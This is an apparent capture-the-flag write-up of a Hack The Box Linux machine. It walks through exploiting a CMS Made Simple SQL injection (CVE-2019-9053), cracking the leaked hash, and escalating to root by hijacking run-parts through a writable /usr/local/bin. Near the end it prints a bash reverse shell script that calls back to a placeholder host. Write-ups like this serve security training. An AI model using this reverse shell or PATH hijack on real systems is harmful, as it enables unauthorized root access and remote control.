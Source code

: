 Title: htb - writeup
Tags: #htb #lab #writeup #linux #CVE-2019-9053 #path-hijacking

---
### Walkthrough 

#### tldr;
web server is using CMS made simple which is vulnerable to blind sqli (CVE-2019-9053), leading to credential leak with MD5 hash which can be used for ssh after cracking it

for the privilege escalation, it is coming from path hijacking as the user is added to the system `staff` group that has write access to `/usr/local/bin` 


IP: 10.10.10.138
#### Reconnaissance 

Starting with a nmap scan on the provided IP  
```bash
nmap -sC -sV -A 10.10.10.138 -p- -oA nmap/nmap_scan
```

The nmap scan show that there are 2 ports open:
- 22 - OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
- 80 - Apache httpd 2.4.25 ((Debian))

From the scan, is show that the webpage hosted on port 80 has the path `/writeup` from `robots.txt`. Browsing through the site, on the root path (http://10.10.10.138/), you will be greeted with a message stating that there is a DoS protection that is looking for 40X errors on the webpage. This mean that directory bruteforcing would not be a good idea  - learned this the hard way,running ffuf on it blocks my IP :)

Upon browsing the website once the IP ban is over, there was nothing much within it as it is just a webpage that shows the user ctf writeups and there are no user controllable source.

But by looking at the source code for http://10.10.10.138/writeup, it turns out the website is hosted on a CMS known as CSM Made Simple has the copyright years with it. After some searching, it looks like there are only 5 release in 2019.![](assets/Pasted%20image%2020250809174622.png)

#### CVE-2019-9053
And after some searching, there is one vulnerability SQL injection CVE that aligns with the year - CVE-2019-9053 - along with the exploit script - [ref](https://www.exploit-db.com/exploits/46635). 

After setting up the script and running it, it was able to get the username, email, MD5 password hash and its hash value, which can be cracked via `hashcat`![](assets/Pasted%20image%2020250809174632.png)
#### User Flag
Using newly obtained credential, we will be able to ssh into the server and obtain the user flag.![](assets/Pasted%20image%2020250809174653.png)    
#### Privilege Escalation 
To get to root in this box took awhile, as after enumerating for quite sometime such as checking for sudo access, cronjobs, misconfigured SUID and so on... 

But after awhile, I realized that I completely forgotten to check the user group that this user is assigned to. Upon checking it, one group that stands out the most if the `staff` group as it does not look default system group.![](assets/Pasted%20image%2020250809174704.png)![](assets/Pasted%20image%2020250809174710.png)

Which turns out it actually is, as the group ID is less then 1000 which by convention it should be a system group. So I decided to dig further, and found the this group is a default group for Debian. From the Debian wiki, it states that the staff group allow users to modify `/usr/local` including `/usr/local/bin` without root privilege.![](assets/Pasted%20image%2020250809174720.png)  
![](assets/Pasted%20image%2020250809174725.png)    

With this new information, I start trying a few things such as creating a simple bash script that echos out `whoami` in `/usr/local/bin`, but ultimately the user the output was always `jkr` instead of `root`, which makes sense since `jkr` user is the one that is executing the script. 

So back to more researching, I stumble upon an attack know as Path Hijacking (might have taken a peak in the walkthrough). 
##### Path Hijacking
So path hijacking is just as its name suggested, we will be hijacking a legitimate binary by creating a malicious binary with the same name, whereby the system will be invoking the malicious binary instead of the legitimate binary. This can be done by taking advantage of the order of execution for the `PATH` env variable  

So, from my understanding, path hijacking requires three condition to be met: 
1. A privilege user to run the malicious binary 
2. The binary execution need to be from a relative path as oppose to absolute path 
3. The vulnerable `PATH` needs to come first in the $PATH env variable (which in this case its `/usr/local/bin`)
	1. `/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`
	2. ![](assets/Pasted%20image%2020250809174732.png)

In our case, from the 3 mentioned conditions only one have been met so far, which is `/usr/local/bin` come first within the `PATH` env. This means that we will be overwrite any legitimate binary  with our own malicious binary 

Here's a simple POC for that, overwritten `md5sum` and replaced it with a bash script. ![](assets/Pasted%20image%2020250809174744.png)   

One thing that I encounter in this, to speed/optimized binary execution, bash actually creates hash table to for the binaries. What this means is that eventhough `which` is pointing to the malicious binary, the hash table will still take precedence. To check this the `type` command can be use and the `hash -r` command can be use to clear the hash table. 

Back to the main goal, we are still missing 2 conditions, a privilege user running the binary and a binary that is getting executed, to locate we can use a tool know as `pspy` to snoop the processes that is being executed without having root access. 

While the `pspy` is running, a binary called `run-parts` is getting executed by `root` (as indicated by the uid of 0) with relative path whenever a new ssh session is established.![](assets/Pasted%20image%2020250809174807.png)
##### Root Flag
With this all three conditions are met, we just need to create a malicious `run-parts` binary under `/usr/local/bin` and start a new ssh session to invoke the binary. (In this case the `hash -r` is not needed, which from my assumption is that since this is a new session, the hash table is not populated yet)

Reverse shell script 
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/<replace with ip>/4444 0>&1
```

Reverse shell listener ![](assets/Pasted%20image%2020250809174817.png)  
### References
- https://wiki.debian.org/SystemGroups
- https://github.com/DominicBreuker/pspy
- https://nvd.nist.gov/vuln/detail/CVE-2019-9053
- https://www.exploit-db.com/exploits/46635
- https://github.com/vulhub/vulhub/blob/master/cmsms/CVE-2019-9053/README.md
- https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
